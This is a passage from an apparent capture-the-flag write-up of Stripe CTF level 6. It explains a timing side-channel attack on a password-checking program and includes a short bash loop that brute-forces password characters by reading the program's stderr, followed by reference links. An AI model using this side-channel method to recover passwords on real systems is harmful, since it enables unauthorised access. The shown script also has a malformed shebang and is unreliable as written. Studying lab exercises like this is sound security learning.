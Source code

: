 ```
$ ./level06 /home/the-flag/.password banana
 Welcome to the password checker!
$ Ha ha, your password is incorrect!
```

This turns out to be a case of [Timing Attack](http://en.wikipedia.org/wiki/Timing_attack), where we are able to detect the output in **stderr** and in **stdout** to find the characters that form the password (by checking the response to wrong characters).

But there is a twist!

The program works as the following: for every input character, a loop is executed. A dot is printed after each character comparison. If the guess is wrong, the system forks a child process and runs a little slower (each loop has complexity O(n^2) to the guess size, where the maximum size is **MAX_ARG_STRLEN ~ 0.1 MB**).


There are several [elegant solutions in the Internet](https://github.com/stripe-ctf/stripe-ctf/blob/master/code/level06/level06.c), but a very simple possible shell exploit is the shown:

```
#!\bin\bash
for c in {A..Z} {a..z} {0..9}; do
echo $c
head -c35 file & sleep 0.1
/levels/level06 /home/the-flag/.password "$c"A 2> file
done
```

**And we get our flag! Fun! :) **


---

## References

* [Andy Brody's Post](https://stripe.com/blog/capture-the-flag-wrap-up)
* [Stripe CTF Repository](https://github.com/stripe-ctf)
* Pickle Modules is unsafe! [Here](https://blog.nelhage.com/2011/03/exploiting-pickle/) and [here](http://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/).
* Some other writeups: [here](http://blog.delroth.net/2012/03/my-stripe-ctf-writeup/), [here](https://khr0x40sh.wordpress.com/2012/02/), [here](http://du.nham.ca/blog/posts/2012/03/20/stripe-ctf/), and [here](https://isisblogs.poly.edu/2012/03/23/stripe-ctf-level01/).


